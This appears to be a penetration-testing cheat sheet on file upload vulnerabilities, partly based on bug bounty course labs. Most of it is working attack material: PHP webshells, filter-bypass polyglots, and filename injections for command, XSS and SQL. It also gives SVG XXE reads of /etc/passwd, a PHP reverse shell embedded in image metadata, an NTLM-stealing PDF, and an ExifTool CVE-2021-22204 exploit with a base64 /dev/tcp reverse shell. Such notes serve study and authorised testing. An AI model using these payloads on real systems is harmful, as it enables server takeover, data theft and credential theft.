








# File Uploads


File upload vulnerabilities occur when a web application improperly handles user-uploaded files, allowing potentially harmful files to be uploaded.



This can lead to server compromise, execution of malicious code, and unauthorized access to sensitive data.



Validate file types, use secure file storage paths, implement antivirus scanning, and enforce strict access controls on uploaded files.


## Absent Validation

Enumerate the technologies used on the server -> upload a same-language webshell. &#x20;



```bash
whatweb <URL>
```




```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```




## Client-Side Filters

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

We should start by using the application as intended in order to understand how it works. In doing so, the uploads directory is revealed (`/uploads`) as well as some extension filters (Figure 1).

<figure><figcaption><p>Figure 1: Using the application's functionality as intended.</p></figcaption></figure>

If we inspect the front-end code, we will notice that the file validation check happens on the client-side (Figure 2).

<figure><figcaption><p>Figure 2: Inspecting the application's source code.</p></figcaption></figure>

We can try bypassing this check and upload a [webshell](broken-reference) by intercepting the request before it reaches the server, but after passing the above `validateFileInput` check (Figure 3).

```php
<?php system($_GET['cmd']); ?>
```

<figure><figcaption><p>Figure 3: Bypassing the client-side filter and achieving RCE.</p></figcaption></figure>

## Server-side Filters

### Type Filters

1. [MIME type](https://developer.mozilla.org/en-US/docs/Glossary/MIME) -> indicates that nature and format of a file.
2. [`Content-Type`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type) header -> tells the receiving machine what type of data to expect and how to interpret it.&#x20;

If the server implicitly trusts the `Content-Type` header's value and no further validation is performed, then by changing its value to an expected content type before it reaches the server will result in bypassing this filter (Figure 4).

<figure><figcaption><p>Figure 4: Bypassing the server-side filter by modifying the <code>Content-Type</code> header.</p></figcaption></figure>

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Except checking the `Content-Type` header's value, or in addition to it, the server might actually check the file's content. In this case, **polyglot files**, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's [**magic bytes**](https://en.wikipedia.org/wiki/List_of_file_signatures), aka _headers_ or _signatures_. For instance, the application below has both a client-side and a server-side filter (Figure 5).

<figure><figcaption><p>Figure 5: The server-side filter does not allow us to upload our webshell.</p></figcaption></figure>

We can try adding the [`JPG` magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to our webshell using a tool such as `hexedit` or [`hexeditor`](https://www.kali.org/tools/ncurses-hexedit/) (Figure 6), which might trick the system into uploading it.

```bash
# original webshell
$ cat webshell.php
<?php system($_GET['cmd']); ?>
# system recognizes as a PHP script
$ file webshell.php
webshell.php: PHP script, ASCII text
$ file --mime-type webshell.php
../user-content/webshell.php: text/x-php
# add 4 random bytes at the start of it
$ cat webshell.php
AAAA<?php system($_GET['cmd']); ?>
# change the 4 bytes to FF D8 FF E0
$ hexeditor webshell.php
```

<figure><figcaption><p>Figure 6: Editing the file's magic bytes.</p></figcaption></figure>

Next, we can check if the file is now recognized as an image file instead of a PHP script.

```bash
# confirm the change
$ cat webshell.php
����<?php system($_GET['cmd']); ?>
# system recongizes as a JPEG file
$ file webshell.php
webshell.php: JPEG image data
$ file --mime-type webshell.php
webshell.php: image/jpeg
```

To upload the shell we must first bypass the client-side extension filter by adding an image extension to the file and then remove that extension via our proxy, so the server is able to execute it (Figure 7).

<figure><figcaption><p>Figure 7: Bypassing both the client-side and server-side filters. </p></figcaption></figure>

Finally, we can interact with the webshell either via the browser or using `curl`.

```bash
$ curl http://localhost/labs/uploads/webshell.php?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Blacklists/Whitelists

Sometimes a server-side filter can be based on a whitelist or a blacklist (Figure 8).

<figure><figcaption><p>Figure 8: A blacklist-based server side filter blocking <code>.php</code> file extensions.</p></figcaption></figure>

In this case, we can fuzz the file extension and see if any [valid PHP extension](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) has been left out of it (Figure 9).

<figure><figcaption><p>Figure 9: Fuzzing for valid <code>php</code> extensions.</p></figcaption></figure>

By trying both `php5` and `phtml` , we see that only the latter works as the server is not configured to interpret the former as a valid PHP script.

```bash
$ curl http://localhost/labs/uploads/shell.php5?cmd=id
����<?php system($_GET['cmd']); ?>

$ curl http://localhost/labs/uploads/shell.phtml?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switch the extensions over, i.e.,  `webshell.phar.jpg` (Figure 10) (**reverse double extension method**).

<figure><figcaption><p>Figure 10: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be uploaded but it might not be able to execute. Instead it can be served as a direct download (Figure 11.1) or as a page (Figure 11.2).

<figure><figcaption><p>Figure 11: The webshell script treated as a direct download and a page.</p></figcaption></figure>

This can be potentially bypassed by a **null byte injection**. The null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 13), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><figcaption><p>Figure 13: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### Filename Injection

When the uploaded file name is refected on the page. If the OS moves the file with a command such as `mv <file> /tmp`, then we achieve RCE.

```
# command execution
file$(whoami).jpg
file`whoami`.jpg
file.jpg||whoami
```

Similarly, an XSS or SQLi attack can be performed.

```
# xss
<script>alert(window.origin);</script>
# sql
file';select+sleep(5);--.jpg
```

### Uploads Directory

* Check source code after uploading a file.
* Fuzz for an `/uploads` directory, and then for the file itself.
* Forcing error messages that might disclose the uploads directory:
  * Uploading a file that already exists or sending 2 identical requests simultaneously.
  * Uploading a file with a very (very) long name.

### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' ">' image.jpg
```


```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```


If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```


We can also perform [XXE](injections/xxei/) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


### PDFs

For Windows targets, we can create and upload a malicious PDF file and attempt to steal the user's NTMLv2 hash using [`badpdf.py`](https://github.com/deepzec/Bad-Pdf):


```bash
$ sudo python2 badpdf.py                                                                                                                                                                                                                   

Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.2
Please enter output file name: 
malicious.pdf
Please enter the interface name to listen(Default eth0): 
tun0
[*] Starting Process.. [*]
Bad PDF malicious.pdf created
```


## RCE

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, **regardless of the file extension or type**. The file upload form does not need to be vulnerable, just allowing file uploads.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>

### Image

We can create a malicious image containing PHP code, using an allowed image extension (_bypassing extension filters_), in this case `.gif`,and including the image's [magic bytes](file-uploads.md#server-side-filters) at the beginning of the file content (`GIF8`) (_bypassing content type filters_).

```bash
# Creating a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is harmless and would not affect normal web application. However, if we combine it with an LFI flaw, then we may be able to achieve RCE after finding its [uploads directory](file-uploads.md#uploads-directory).

```bash
# RCE
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```

### Exiftool

&#x20;ExifTool `≤12.23` is vulnerable to a RCE vulnerability ([CVE-2021-22204](https://nvd.nist.gov/vuln/detail/cve-2021-22204)), caused by unsafe parsing of malicious metadata in **DjVu files disguised as JPEGs**. When ExifTool processes such a file—often automatically in image upload workflows—it can execute arbitrary code embedded in the metadata.

Many CMS platforms and web apps use ExifTool for image handling, making this vulnerability exploitable via unauthenticated file uploads if no proper validation exists. Exploited code runs with the privileges of the calling process, typically the web server. The injection process below is taken from INE's [ExifTool Command Injection (CVE-2021-22204)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) blog post.&#x20;


```bash
# Encode reverse shell payload to Base64 for safe injection
$ echo 'sh -i >& /dev/tcp/192.168.45.170/443 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK

# Create metadata payload with embedded system call to decode and execute shell
$ cat payload
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK|base64 -d|bash')};")

# Compress the payload into bzz format (required by DjVu)
$ bzz payload payload.bzz

# Create malicious DjVu file with injected payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# Confirm file type is valid DjVu
$ file exploit.djvu
exploit.djvu: DjVu image or single page document

# Define a custom EXIF tag for injecting malicious DjVu file
$ cat config_file
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',  # Custom tag name
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; # Required line to end the config

# Inject DjVu payload into a JPEG image via the custom EXIF tag
$ exiftool -config config_file '-HasselbladExif<=exploit.djvu' duck.jpg
    1 image files updated
```


### ZIP

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper (not enabled by default) allows to achieve RCE by archiving a webshell into a zip file ending in an allowed extension, e.g. `.jpg`. The files within the archived can be reached using `#`. This has a higher chance to work if ZIP uploads are allowed by the application, as content-type filters may block it.


```shell
# Creating and archiving webshell (zip file = shell.jpg)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
# upload -> RCE (URL-encode '#' -> %23)
curl http://<ip:port>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```


### Phar

We can also use the `phar://` wrapper to achieve RCE. The script below can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which can be accessed using `/`.


```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```



```shell
# Compiling the script into a phar file called 'shell.jpg'
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
# Upload -> RCE (URL-encode '/' -> %2F)
curl http://<ip:port>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```


There is another obsolete LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP config and the `phpinfo()` page is somehow exposed to us. This attack has very specific requirements to work: LFI + uploads enabled + old PHP + exposed `phpinfo()`. You can find more info [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).
